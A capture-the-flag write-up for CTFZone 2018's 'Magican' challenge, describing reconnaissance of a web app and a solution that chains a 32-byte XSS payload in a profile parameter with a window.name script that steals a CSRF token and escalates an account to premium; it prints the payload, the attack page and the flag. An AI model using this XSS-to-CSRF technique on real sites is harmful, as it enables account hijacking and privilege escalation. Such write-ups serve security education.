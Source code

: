 # Magican &ndash; write-up by @terjanq
*CTFZone 2018 Quals, 7/24/18*

## Description
We are provided with a simple website
![website]

and the only functionalities are `login/register`, `edit profile`, `support`. 

`Support` section allows us to send two types of messages to the admin: `Problems with Profile` and `Get premium account`. Each of them contains two fields: `Link to profile` and `Message`.  
![support]

`Edit profile` section allows us to edit our name.  
![profile]

## Quick research
- When we manually edit the `Link to profile` field to `http://ourwebsite` in the first option of `Support` section the admin will visit it and thanks to the `User-Agent header` we could see that the admin is using `Firefox 61.0`.  

- `HTTP response header` looks like:
```
< Content-Security-Policy: style-src 'self' 'unsafe-inline'; script-src 'self' 'unsafe-inline' https://www.google.com/recaptcha/ https://www.gstatic.com/recaptcha/;
< Content-Type: text/html; charset=UTF-8
< Referrer-Policy: origin
< Server: Apache/2.4.25 (Debian)
< X-Content-Type-Options: nosniff
< X-Frame-Options: ALLOW-FROM http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one
< X-Powered-By: PHP/7.0.30
< X-XSS-Protection: 1; mode=block
```
and means that
    - we cannot include any external `scripts` and `styles`
    - we cannot embed the website into `iframe` on external website (however Google will allow it due to the *incorrect header*)
    - any attempt of `reflected XSS` should be blocked by the browser
    - we can send information out as the `image` or `xhr requests`
     
- Parameter `uuid` in the request `http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one/profile.php?uuid=<uuid>` is vulnerable to the injections ( XSS/CSS ) and is limited to `36 characters`. The lack of `XSS Auditor` in Firefox allows us to inject `XSS` in there.  
    ![xss]

- With the help of dirbuster, I found the `manage.php` page which is the admin's tool for changing `user status` to `premium`  
![manage]

- `profile.php` and `manage.php` are protected by the `hidden token`, and tokens are associated with the current session

- When we try to send `POST` data to the `profile.php` or `manage.php` with `Referrer` different than `web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one` the error `Wrong Referrer` will appear. However, I found out that it only has to start with it and therefore the referrer `web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one.example.com` will be accepted!.

- When we try to change our status to `premium`, `Permission Denied!` appears.

## Solution

Based on the findings it was obvious that our goal is to do a `CSRF` (Cross-Origin Request Forgery) attack, in order to change our status to `premium`, and the only missing piece is the `token`. It was a very tough task to steal and then send the token in `34 bytes`! With the help of [@gros] from my team we managed to create a payload `"><svg/onload=$.globalEval(name)` 32 bytes long where `name` is a just short form of `window.name` property. We assigned it by sending the admin to our webpage where we triggered `window.open('http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one/profile.php?uuid="><svg/onload=$.globalEval(name)', <long payload>)` setting `window.name` to `<long payload>`.  
    The complete [forms.html] looked like:  
```HTML
<script>

      window.open('http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one/profile.php?uuid="><svg/onload=$.globalEval(name)', `

        $.get("manage.php", function(data){    
                var x = /name="token" value="([^"]+)/.exec(data);
                $.post("manage.php", {user_uuid: "6c1e8255-ceed-428a-8b48-74e13db8142d", token: x[1], status: "premium"}); 
         });

   `);

</script>
```
And after sending the admin to that page, on my profile I could find the flag: **ctfzone{0190af5705a38115cd6dee6e7d79e317}**





[website]: <./images/website.png>
[xss]: <./images/xss.png>
[profile]: <./images/profile.png>
[support]: <./images/support.png>
[manage]: <./images/manage.png>
[forms.html]: <./forms.html>
[@gros]: <#>